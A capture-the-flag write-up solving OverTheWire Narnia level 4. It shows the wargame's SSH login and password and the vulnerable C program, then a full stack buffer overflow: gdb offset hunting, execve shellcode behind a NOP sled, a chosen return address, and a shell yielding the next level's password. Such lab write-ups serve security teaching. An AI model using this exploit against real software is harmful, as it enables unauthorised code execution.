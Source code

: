 ## Login 

` SSH : ssh narnia4@narnia.labs.overthewire.org -p 2226 `
` Pass : iqNWNk173q `

## Solution

First, let’s try to execute the program…

```
$ ssh narnia4@narnia.labs.overthewire.org -p 2226

narnia4@narnia:~$ cd /narnia/
narnia4@narnia:/narnia$ ./narnia4
```

Nothing… weird.
### Source Code

Let’s check the source.

```
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```

This one is similar to the **level 2** however, we don’t have any output or result from the program. Here, the **buffer** variable is **256** bytes long and again, no boundary check. Let’s find where we overflow the return address…

```
$ gdb narnia4

(gdb) set disassembly-flavor intel
(gdb) run $(python -c 'print 264 * "A" + 4 * "B"')
Starting program: /narnia/narnia4 $(python -c 'print 264 * "A" + 4 * "B"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```

So, **256** bytes of garbage and **4** more bytes to overwrite the return address. To exploit this one I used the following shellcode :

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

Let’s find a return address. Here, I placed a return address right after the _strcpy()_ call :

```
(gdb) break *main+121
Breakpoint 1 at 0x8048524

(gdb) run $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + 4 * "B"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia4 $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + 4 * "B"')

Breakpoint 1, 0x08048524 in main ()
(gdb) x/100x $esp+600
0xffffd6e4:	0x00000000	0x00000009	0x080483b0	0x0000000b
0xffffd6f4:	0x000036b4	0x0000000c	0x000036b4	0x0000000d
0xffffd704:	0x000036b4	0x0000000e	0x000036b4	0x00000017
0xffffd714:	0x00000001	0x00000019	0xffffd74b	0x0000001a
0xffffd724:	0x00000000	0x0000001f	0xffffdfe8	0x0000000f
0xffffd734:	0xffffd75b	0x00000000	0x00000000	0x00000000
0xffffd744:	0x00000000	0xb9000000	0x47bfa236	0xde88977b
0xffffd754:	0x969dbe24	0x69e65cf5	0x00363836	0x00000000
0xffffd764:	0x00000000	0x616e2f00	0x61696e72	0x72616e2f
0xffffd774:	0x3461696e	0x90909000	0x90909090	0x90909090
0xffffd784:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd794:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7a4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7b4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7c4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7d4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7e4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7f4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd804:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd814:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd824:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd834:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd844:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd854:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd864:	0x50c03190	0x732f2f68	0x622f6868	0xe3896e69
```

We’ll use `0xffffd7b4` as it is in the middle of the _NOP sled_.

```
(gdb) run $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xb4\xd7\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia4 $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xb4\xd7\xff\xff"')

Breakpoint 1, 0x08048524 in main ()
(gdb) conti
Continuing.
process 22763 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
$
```

Looks like it worked. Let’s do the same outside GDB.

```
narnia4@narnia:/narnia$ ./narnia4 $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xb4\xd7\xff\xff"')
$ whoami
narnia5
$ cat /etc/narnia_pass/narnia5
Ni3xHPEuuw
```

Success !